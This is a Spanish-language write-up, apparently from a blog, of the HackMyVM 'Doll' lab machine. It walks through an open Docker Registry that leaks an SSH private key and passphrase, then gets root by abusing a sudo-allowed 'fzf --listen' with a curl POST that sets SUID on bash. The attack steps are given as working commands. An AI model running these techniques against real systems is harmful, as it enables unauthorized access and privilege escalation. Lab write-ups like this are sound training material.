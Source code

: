 ```yaml
---
layout: post
title: Doll
date: 2023-05-20
author: BlackCage
categories: [HackMyVM]
tags: [HMV, Docker Registry, SSH]
---
```


# Doll [ Hack My VM ]
![light mode only](/assets/img/imgs/doll/logo.jpg){: .light }
![dark mode only](/assets/img/imgs/doll/logo_black.png){: .dark }

# Reconocimiento
### NMAP
```
# Nmap 7.93 scan initiated Sat May 20 14:02:11 2023 as: nmap -sCV -p22,1007 -oN targeted 192.168.1.112
Nmap scan report for 192.168.1.112
Host is up (0.00065s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 d732ac404ba84166d3d811496ceded4b (RSA)
|   256 810e67f8c3d2501e4d092a5811c8d495 (ECDSA)
|_  256 0dc37c540b9d3132f2d909d3eded93cd (ED25519)
1007/tcp open  http    Docker Registry (API: 2.0)
|_http-title: Site doesn't have a title.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat May 20 14:03:02 2023 -- 1 IP address (1 host up) scanned in 50.60 seconds
```

Vemos que el puerto `22` está abierto, pero no tenemos ningún usuaio para poder conectarnos.

### Inspección
Como anteriormente hemos visto, **NMAP** nos ha reportado un puerto algo extraño, vamos a buscar más información sobre `Docker Registry`.

Tras hacer una búsqueda me encontré con un artículo de [**`HackTricks`**](https://book.hacktricks.xyz/network-services-pentesting/5000-pentesting-docker-registry), aquí explica paso a paso cómo listar los `Dockers` disponibles en el caso de que sea público.

Para comenzar tendremos que dirigirnos a la siguiente `URL`: `http://192.168.1.112/v2/_catalog`.

Nos debería aparecer lo siguiente:

![catalog](/assets/img/imgs/doll/catalog.png)

Vemos que solo existe un imagen, esto nos hará más fácil la explotación.

Bien, una vez tengamos estos datos podemos hacer una petición con `cURL` al siguiente **`endpoint`**: `/v2/dolly/manifests/latest`:

```sh
┌──(root㉿kali)-[~/…/VMs/HMV/Doll/]
└─# curl http://192.168.1.112:1007/v2/dolly/manifests/latest      
{
   "schemaVersion": 1,
   "name": "dolly",
   "tag": "latest",
   "architecture": "amd64",
   "fsLayers": [
      {
         "blobSum": "sha256:5f8746267271592fd43ed8a2c03cee11a14f28793f79c0fc4ef8066dac02e017"
      },
    [..]
   ],
   "history": [
      {
         [...]
      },
      {
         "v1Compatibility": "{\"id\":\"1430f49318669ee82715886522a2f56cd3727cbb7cb93a4a753512e2ca964a15\",\"parent\":\"638e8754ced32813bcceecce2d2447a00c23f68c21ff2d7d125e40f1e65f1a89\",\"comment\":\"buildkit.dockerfile.v0\",\"created\":\"2023-03-29T18:19:24.45578926Z\",\"container_config\":{\"Cmd\":[\"ARG passwd=devilcollectsit\"]},\"throwaway\":true}"
      },
   [...]
}
```

Vemos bastante información, pero entre todo aquel cúmulo de letras veremos la siguiente línea: `passwd=devilcollectsit`, tal vez ahora no nos haga falta, pero será de vital importancia.

¡Bien! Tenemos una contraseña e información importante, vamos a ver qué podemos hacer.

# Movimiento Lateral
### Shell
Para el siguiente paso utilizaremos la información extraída anteriormente.

Como habréis visto en la respuesta `JSON` anterior, tenemos varios `BlobSums`, vamos a descarganos el primer **`Blob`**:

```sh
┌──(root㉿kali)-[~/…/VMs/HMV/Doll/exploits]
└─# curl http://192.168.1.112:1007/v2/dolly/blobs/sha256:5f8746267271592fd43ed8a2c03cee11a14f28793f79c0fc4ef8066dac02e017 --output blob.tar

┌──(root㉿kali)-[~/…/VMs/HMV/Doll/exploits]
└─# ls -la
total 12
drwxr-xr-x 2 root root 4096 May 20 15:08 .
drwxr-xr-x 6 root root 4096 May 20 14:26 ..
-rw-r--r-- 1 root root 3707 May 20 15:08 blob.tar
```

Vamos a descomprimirlo, para ello utilizaremos la herramienta **`TAR`**:

```sh
┌──(root㉿kali)-[~/…/VMs/HMV/Doll/exploits]
└─# tar -xf blob.tar

┌──(root㉿kali)-[~/…/VMs/HMV/Doll/exploits]
└─# ls -la
total 24
drwxr-xr-x 5 root root 4096 May 20 15:09 .
drwxr-xr-x 6 root root 4096 May 20 14:26 ..
-rw-r--r-- 1 root root 3707 May 20 15:08 blob.tar
drwxr-xr-x 2 root root 4096 Apr 25 04:52 etc
drwxr-xr-x 3 root root 4096 Apr 25 04:52 home
drwx------ 2 root root 4096 Apr 25 04:52 root
```

Vemos varias carpetas, pero la que nos interesa es la carpeta `home`, si nos adentramos veremos que hay una subcarpeta con el nombre de un usuario, `bela`.

Si continuamos investigando veremos que dentro de su directorio personal tiene la carpeta `.ssh`, vamos a ver qué tiene dentro:

```sh
┌──(root㉿kali)-[~/…/Doll/exploits/home/bela]
└─# ls -la
total 16
drwxr-sr-x 3 kali kali 4096 Apr 25 04:53 .
drwxr-xr-x 3 root root 4096 Apr 25 04:52 ..
-rw------- 1 kali kali   57 Apr 25 04:53 .ash_history
drwxr-sr-x 2 kali kali 4096 Apr 25 04:53 .ssh
-rwxr-xr-x 1 kali kali    0 Dec 31  1969 .wh..wh..opq
                                                                                                                                       
┌──(root㉿kali)-[~/…/Doll/exploits/home/bela]
└─# cd .ssh 
                                                                                                                                       
┌──(root㉿kali)-[~/…/exploits/home/bela/.ssh]
└─# ls -la
total 12
drwxr-sr-x 2 kali kali 4096 Apr 25 04:53 .
drwxr-sr-x 3 kali kali 4096 Apr 25 04:53 ..
-rw-r--r-- 1 kali kali 2635 Apr 25 04:53 id_rsa
```

¡Wow! Tenemos la clave `RSA` privada de `Bela`, démosle permisos y accedamos:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Doll]
└─# chmod 600 bela.id_rsa

┌──(root㉿kali)-[~/Desktop/VMs/HMV/Doll]
└─# ssh -i bela.id_rsa bela@192.168.1.112                       
Enter passphrase for key 'bela.id_rsa': 
```

Vemos que nos pide una clave de acceso, por suerte recordamos la contraseña antes encontrada y la probamos:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Doll]
└─# ssh -i bela.id_rsa bela@192.168.1.112
Enter passphrase for key 'bela.id_rsa': devilcollectsit
Linux doll 5.10.0-21-amd64 #1 SMP Debian 5.10.162-1 (2023-01-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat May 20 21:14:59 2023 from 192.168.1.106
bela@doll:~$
```

¡Estupendo! Ya estamos como `Bela` en la máquina.

### Subida de privilegios
Para conseguir el **control total** de la máquina comencé por mirar los permisos que disponía en la máquina con `sudo -l`:

```sh
bela@doll:~$ sudo -l
Matching Defaults entries for bela on doll:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User bela may run the following commands on doll:
    (ALL) NOPASSWD: /usr/bin/fzf --listen\=1337
```

Vemos que podemos ejecutar como cualquier usuario y sin contraseña (es decir, como `root`) el binario `FZF` con el argumento `--listen=1337`, vamos a ver qué es lo que hace esta opción.

Para ello me miré el [manual](https://man.archlinux.org/man/fzf.1.en#listen_=HTTP_PORT_) del comando. Tras haber leído su funcionamiento podemos comenzazr con la explotación.

Para ello comenzaremos por traernos el puerto `1337` a nuestra máquina, para ello podemos utilizar el argumento **`-L`** de **`SSH`**:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Doll]
└─# ssh -i bela.id_rsa bela@192.168.1.112 -L 1337:127.0.0.1:1337
```

Ahora tendremos en nuestra máquina el puerto `1337`, esto nos servirá para enviar una petición **`POST`** con argumentos, en el manual ponen un ejemplo.

Para poder seguir con la explotación debemos ejecutar el binario como `root`:

```sh
bela@doll:~$ sudo /usr/bin/fzf --listen=1337
```

Una vez tengamos el binario ejecutado ya está todo listo para obtener el **control total** de la máquina, para ello nos falta enviar la siguiente petición **`POST`** mediante **`cURL`**:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Doll]
└─# curl -X POST 127.0.0.1:1337 -d 'execute(chmod +s /bin/bash)'
```

Si vemos los nuevos permisos de **`Bash`** nos debería salir lo siguiente:

```sh
bela@doll:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1234376 mar 27  2022 /bin/bash
```

Como vemos ahora podemos ejecutar el binario con los permisos de `root`, es decir, nos podemos convertir en `root` haciendo lo siguiente:

```sh
bela@doll:~$ bash -p
bash-5.1#
```

¡Enhorabuena! Hemos conseguido tener el **control total** de la máquina. ¡Qué fácil!
